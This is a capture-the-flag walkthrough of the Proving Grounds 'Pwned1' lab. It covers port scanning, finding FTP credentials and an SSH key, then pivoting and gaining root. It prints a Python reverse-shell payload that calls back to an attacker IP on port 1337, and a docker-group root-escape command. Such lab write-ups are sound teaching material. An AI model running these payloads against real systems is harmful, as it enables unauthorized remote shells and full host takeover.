----------------

### CTF: Proving Grounds
### Lab: Pwned1

----------------

![image](https://github.com/user-attachments/assets/18f57589-c5bf-4539-aedc-79653559e814)

----------------

### Reconnaissance

- Rustscan's output

          ❯ rustscan -a 192.168.234.95 -- -Pn -sC -sV
          .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
          | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
          | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
          `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
          The Modern Day Port Scanner.
          ________________________________________
          : https://discord.gg/GFrQsGy           :
          : https://github.com/RustScan/RustScan :
           --------------------------------------
          🌍HACK THE PLANET🌍
          
          [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
          [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
          [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
          Open 192.168.234.95:22
          Open 192.168.234.95:21
          Open 192.168.234.95:80
          [~] Starting Script(s)
          [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
          
          Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
          [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 04:16 EDT
          NSE: Loaded 156 scripts for scanning.
          NSE: Script Pre-scanning.
          NSE: Starting runlevel 1 (of 3) scan.
          Initiating NSE at 04:16
          Completed NSE at 04:16, 0.00s elapsed
          NSE: Starting runlevel 2 (of 3) scan.
          Initiating NSE at 04:16
          Completed NSE at 04:16, 0.00s elapsed
          NSE: Starting runlevel 3 (of 3) scan.
          Initiating NSE at 04:16
          Completed NSE at 04:16, 0.00s elapsed
          Initiating Parallel DNS resolution of 1 host. at 04:16
          Completed Parallel DNS resolution of 1 host. at 04:16, 0.02s elapsed
          DNS resolution of 1 IPs took 0.02s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
          Initiating Connect Scan at 04:16
          Scanning 192.168.234.95 [3 ports]
          Discovered open port 22/tcp on 192.168.234.95
          Discovered open port 21/tcp on 192.168.234.95
          Discovered open port 80/tcp on 192.168.234.95
          Completed Connect Scan at 04:16, 0.15s elapsed (3 total ports)
          Initiating Service scan at 04:16
          Scanning 3 services on 192.168.234.95
          Completed Service scan at 04:17, 6.41s elapsed (3 services on 1 host)
          NSE: Script scanning 192.168.234.95.
          NSE: Starting runlevel 1 (of 3) scan.
          Initiating NSE at 04:17
          Completed NSE at 04:17, 6.67s elapsed
          NSE: Starting runlevel 2 (of 3) scan.
          Initiating NSE at 04:17
          Completed NSE at 04:17, 1.28s elapsed
          NSE: Starting runlevel 3 (of 3) scan.
          Initiating NSE at 04:17
          Completed NSE at 04:17, 0.00s elapsed
          Nmap scan report for 192.168.234.95
          Host is up, received user-set (0.14s latency).
          Scanned at 2024-09-30 04:16:58 EDT for 15s
          
          PORT   STATE SERVICE REASON  VERSION
          21/tcp open  ftp     syn-ack vsftpd 3.0.3
          22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
          | ssh-hostkey: 
          |   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
          | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaQPyAx8qSGlWyyuL5xu/6lWdbWs6VArMlRC71wt11kYKMGUTuVmPvLAdSAL66haaz0DCvquZMOmeYNHvM7/OjfmkwlIt3Wv53q/23AODRwPGkpj00QCNH/Vqt6Aw94Afo3etyW9SU3vzLC2F3mS18cqXApmV90NIH3d6ayhsDP+aPuQFoFqEzDxzy2RkosueaEERECT0auT+pTIwRMCHBEVX98Srd8+ax1yhWITRTGOYXcdocx0m9tooFUEH/a1P3RK3gBzCL63ZejMN9YofBl8y+CwCt+0nBLg+PtNjjskD9CaBwxUmH0/UM24z9BQecPn3IFmm3+P5U0z1DQEhf
          |   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
          | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDHWpwgF92XD4REIANL7X9lMcQSwcbhlNqwBvNi8l4SzQn5MjSzlBQzgcC7Kro57lCr0kImH+XdijG+r6lyps70=
          |   256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
          |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHPgRt1LF33Ttn5DuGuJJpmgbMd2ofAkqEt6gTOQK+WW
          80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
          |_http-server-header: Apache/2.4.38 (Debian)
          | http-methods: 
          |_  Supported Methods: HEAD GET POST OPTIONS
          |_http-title: Pwned....!!
          Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's output

![image](https://github.com/user-attachments/assets/29cfa229-23a8-424f-8693-fa43002fc684)

- Robots.txt reveals two hidden directories

![image](https://github.com/user-attachments/assets/e541a09d-7f8e-4ea1-a167-19355b60a497)

- `Hidden_text` directory contains a wordlist for directory fuzzing

![image](https://github.com/user-attachments/assets/49e8a81c-7c3e-4f3f-91d0-4a170d2d6968)

- I fuzzed for directories with the wordlist and got one file match.

![image](https://github.com/user-attachments/assets/79ebe5ad-2f70-4cc0-b359-d4588500b256)

- Checking the source of `pwned.vuln` reveals  ftp creds

![image](https://github.com/user-attachments/assets/cdefa81c-731e-4490-8dd3-eb91b43a17b9)

- Ftp acesss as ftp user

![image](https://github.com/user-attachments/assets/99a559df-4dcb-46d4-8390-f4a18d927ed5)

- The share directory contains a note.txt and an id_rsa file

![image](https://github.com/user-attachments/assets/2122b286-7e81-4f08-8409-9a892a2e165d)

- The note.txt points to a user `ariana`

![image](https://github.com/user-attachments/assets/1dce5721-fb14-462c-be47-c792418671d4)

- SSH access as user `ariana`

![image](https://github.com/user-attachments/assets/b3dab1fb-5643-4fa1-bd01-a7379f900004)


### Pivoting to user `selena`

- I ran `sudo -l` which shows that we can run a shell script as user `selena`.

![image](https://github.com/user-attachments/assets/980768fc-a372-470a-aeaa-d7078bb3a4e2)

- I checked the shell script and discovered that we can execute shell commands with string stored in variable `msg` which is executed when it gets to statement `$msg 2</dev/null`.

![image](https://github.com/user-attachments/assets/7252a0b1-5147-4aec-bf9c-0a4f5bc8879e)

- I created a bash script in directory `tmp` and added a rev bash shell code to it.I applied this method to call the script later in `messenger.sh`.

   PAYLOAD-:```echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.156\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"bash\")'" > /tmp/script;chmod +x /tmp/script```

![image](https://github.com/user-attachments/assets/406269d1-bafa-46d1-bc63-c33bf8ce5dea)

- Shell as selena

![image](https://github.com/user-attachments/assets/f48f53ba-84d3-4e79-ac31-b534ce1e51b1)

### Privesc with group `docker`

- I ran command `id` and discovered that user `selena` is part of group `docker`.

![image](https://github.com/user-attachments/assets/8db07196-c4f9-4fe7-b4fb-d809b6609fc4)

- I used the payload to spawn a root shell with docker.
  Payload-:```docker run -v /:/mnt --rm -it alpine chroot /mnt bash```

- Root as docker with host root directory mounted in it

![image](https://github.com/user-attachments/assets/ba2d563b-5c52-41f7-aa34-38df0bb05937)

- Root

  ![image](https://github.com/user-attachments/assets/dd0bbaf2-3d0d-4f53-acdd-83885b5a47b5)

-----------------

### THANKS FOR READING..!!!

----------------












